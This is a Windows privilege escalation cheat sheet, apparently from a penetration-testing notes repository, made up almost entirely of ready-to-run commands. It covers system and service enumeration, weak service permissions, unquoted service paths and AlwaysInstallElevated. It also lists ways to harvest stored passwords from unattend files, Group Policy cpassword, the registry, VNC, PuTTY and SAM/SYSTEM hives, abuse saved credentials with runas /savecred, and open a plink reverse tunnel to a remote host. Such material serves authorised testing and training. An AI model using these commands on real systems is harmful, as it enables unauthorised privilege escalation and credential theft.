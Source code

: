 # Windows Privilege Escalation Cheat Sheet

## Basic Enumeration

- **Use `dir /ah` to list hidden files**
- Check for saved credentials using `cmdkey /list`. If there are saved credentials, use check *Saved Credentials* below.
- Patch level:

```
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
- Users and groups:

```
net user
net localgroup
net user /domain
net group /domain
```

- Firewall:

```
netsh firewall show state
netsh firewall show config
```

- Network environment

```
ipconfig /all
route print
arp -A
```

- Scheduled Tasks (1): `schtasks /query /fo LIST /v` --> Copy and analyze with `cat schtask.txt | grep "SYSTEM|Task To Run" | grep -B 1 SYSTEM`
- Scheduled Tasks (2): `dir %SystemRoot%\Tasks`

# Weak Service Permissions
```
accesschk.exe /accepteula
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -ucqv <Service Name>
sc qc <Service Name> (Get service details)
```

Check service with weak file permission:

```
cd c:\windows\temp\
wmic.exe
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"
```

```
sc.exe
sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt
FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt
FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```

## Unquoted Service Path

```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\" |findstr /i /v """

sc query
sc qc service name
```

## AlwaysInstallElevated

*Note: for 64 bits use:* `%SystemRoot%\Sysnative\reg.exe`

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```

## Saved and Stored Credentials

### Built-in Storage
- Check with `cmdkey /list`
- Exploit with `runas /savecred /user:<DOMAIN>\Administrator "c:\windows\system32\cmd.exe /c <shell commands>"`

### Common Files

#### Unattended Installation

Look for stored passwords in

```
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

#### IIS Web Config

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
C:\inetpub\wwwroot\web.config
```

#### Group Policy Passwords

1. Determine domain controller with: `set l` (check the last line)
2. Get `Groups.xml`: Check `\\<Value from above>\sysvol\internal.domain\Policies\{A3FB602A-1234-4C58-CDEF-1FCC8D87BFAA}\Machine\Preferences\Groups\groups.xml`
3. Decrypt `cpassword`
4. Get `newName` value from `Groups.xml` (also displayed after step 3?)
5. Execute `runas /user:<user from step 4> cmd.exe` with determined password

Or also in:

```
Services\Services.xml
ScheduledTasks\ScheduledTasks.xml
Printers\Printers.xml
Drives\Drives.xml
DataSources\DataSources.xml
```

#### Misc Files

```
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini
findstr /si pass/pwd *.ini
dir /s pass == cred == vnc == .config

findstr /spin "password" .
findstr /spin "password" .

C:\> dir /b /s unattend.xml
C:\> dir /b /s web.config
C:\> dir /b /s sysprep.inf
C:\> dir /b /s sysprep.xml
C:\> dir /b /s *pass*
C:\> dir /b /s vnc.ini

dir c:*vnc.ini /s /b
dir c:*ultravnc.ini /s /b
dir c:\ /s /b | findstr /si *vnc.ini
```

#### AutoLogin

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

#### McAfee

`%AllUsersProfile%Application Data\McAfee\Common Framework\SiteList.xml`

#### TightVNC

`reg query "HKCU\Software\TightVNC\Server"`

#### Real VNC

`reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password`
`reg query "HKCU\Software\ORL\WinVNC3\Password"`

#### UltraVNC

Look for

```
[ultravnc]
passwd=5FAEBBD0EF0A2413
```

#### PuTTY

`reg query" HKCU\Software\SimonTatham\PuTTY\Sessions"`

#### Registry

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
```

#### SAM

```
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

#### SNMP

`reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"`


#### Useful PowerSploit Modules

```
Get-UnattendedInstallFile
Get-Webconfig
Get-ApplicationHost
Get-SiteListPassword
Get-CachedGPPPassword
Get-RegistryAutoLogon
```

## Port Forwarding

- `netstat -ano`
- Upload `plink.exe`
- plink.exe -R "remote port":127.0.0.1:"local port" root@"ipaddress"



## References

- [Windows Priv Esc](https://github.com/xMilkPowderx/OSCP/blob/master/Windows%20Priv%20Esc.md)
- [Stored Credentials](https://pentestlab.blog/tag/privilege-escalation/page/3/)